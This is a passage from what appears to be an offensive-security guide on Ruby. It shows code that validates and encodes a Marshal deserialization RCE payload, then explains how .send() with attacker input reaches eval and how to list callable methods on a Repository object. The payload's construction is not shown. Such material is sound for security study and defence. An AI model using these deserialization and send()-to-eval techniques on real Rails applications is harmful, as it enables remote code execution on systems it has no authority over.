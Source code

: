 ```ruby

puts "VALIDATION (in fresh ruby process):"
IO.popen("ruby -e 'Marshal.load(STDIN.read) rescue nil'", "r+") do |pipe|
  pipe.print payload
  pipe.close_write
  puts pipe.gets
  puts
end

puts "Payload (hex):"
puts payload.unpack('H*')[0]
puts


require "base64"
puts "Payload (Base64 encoded):"
puts Base64.encode64(payload)
```

Other RCE chain to exploit Ruby On Rails: [https://codeclimate.com/blog/rails-remote-code-execution-vulnerability-explained/](https://codeclimate.com/blog/rails-remote-code-execution-vulnerability-explained/)

<br>

### Ruby .send() method

As explained in [**this vulnerability report**](https://starlabs.sg/blog/2024/04-sending-myself-github-com-environment-variables-and-ghes-shell/), if some user unsanitized input reaches the `.send()` method of a ruby object, this method allows to **invoke any other method** of the object with any parameters.

For example, calling eval and then ruby code as second parameter will allow to execute arbitrary code:

```ruby
<Object>.send('eval', '<user input with Ruby code>') == RCE
```

Moreover, if only one parameter of **`.send()`** is controlled by an attacker, as mentioned in the previous writeup, it's possible to call any method of the object that **doesn't need arguments** or whose arguments have **default values**.\
For this, it's possible to enumerate all the methods of the object to **find some interesting methods that fulfil those requirements**.

```ruby
<Object>.send('<user_input>')

# This code is taken from the original blog post
# <Object> in this case is Repository
## Find methods with those requirements
repo = Repository.find(1)  # get first repo
repo_methods = [           # get names of all methods accessible by Repository object
  repo.public_methods(),
  repo.private_methods(),
  repo.protected_methods(),
].flatten()

repo_methods.length()      # Initial number of methods => 5542

## Filter by the arguments requirements
candidate_methods = repo_methods.select() do |method_name|
  [0, -1].include?(repo.method(method_name).arity())
end
candidate_methods.length() # Final number of methods=> 3595
```
